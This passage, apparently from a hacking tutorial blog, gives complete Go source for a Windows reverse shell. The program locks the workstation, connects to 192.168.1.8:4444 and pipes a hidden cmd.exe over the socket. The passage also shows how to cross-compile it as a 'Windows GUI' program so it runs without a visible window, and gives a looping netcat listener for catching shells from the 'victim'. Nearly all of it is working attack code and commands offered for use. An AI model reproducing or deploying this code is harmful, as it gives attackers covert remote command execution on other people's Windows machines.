 **NOTE:** You can use any name you want for your variables as long as you’re consistent throughout your code (i.e., `cloak`, `dagger`, and `socket`).
```go
package main

import (
    "net"
    "os/exec"
    "syscall"
)

func main() {
    cloak := exec.Command("rundll32.exe", "user32.dll,", "LockWorkStation")
    socket, _ := net.Dial("tcp", "192.168.1.8:4444")
    dagger := exec.Command("cmd.exe")
    dagger.SysProcAttr = &syscall.SysProcAttr{HideWindow: true}
    dagger.Stdin = socket
    dagger.Stdout = socket
    dagger.Stderr = socket

    cloak.Run()
    dagger.Run()
}
```
To compile our source code, we could use the default values of our environment variables. Although, since we developed this exploit for a Microsoft Windows machine, we must temporarily modify them to match the platform and CPU architecture of our target. Normally, cross-compilation would be as simple as this yet, we have one more step to take.

The Go compiler provides two options for Microsoft Windows. You can go with the default option of a “console” program or ask for a “Windows GUI” program. If you chose “console,” a pop-up window will show regardless of the additional precautions we took in our source code. If you chose “Windows GUI,” these precautions will be recognized and therefore our program will run in the background with no pop-up. This nuance is addressed by Go’s *linker*. A **linker** is “responsible for incorporating the right software during compilation.” To dynamically inform the Go linker we want a “Windows GUI” program, we must invoke the `-ldflags` parameter and supply `-H=windowsgui` as our input.

Execute the command sentence below to compile the source code of our second exploit.
```bash
# how to cross-compile Go source code
env GOOS=windows GOARCH=386 go build -ldflags -H=windowsgui hackmeslow.go
```

![hackmeslow.gif]({{ site.url }}{{ site.baseurl }}/assets/Hasty/hackmeslow.gif)

## How to Keep a Netcat Listener Alive Forever
Netcat is a tool for reading and writing to network sockets. We’re going to need it whenever an infected machine “reports for duty.” Yet, it can be tedious to repeatedly type the syntax for it everytime we exit a network connection with our victim. So we’re going to leverage a one-line script to continously invoke Netcat on our behalf whenever it dies (execute the command sentence below).
```bash
# how to keep a Netcat listener alive forever
while true; do nc -nvlp 4444; done
```

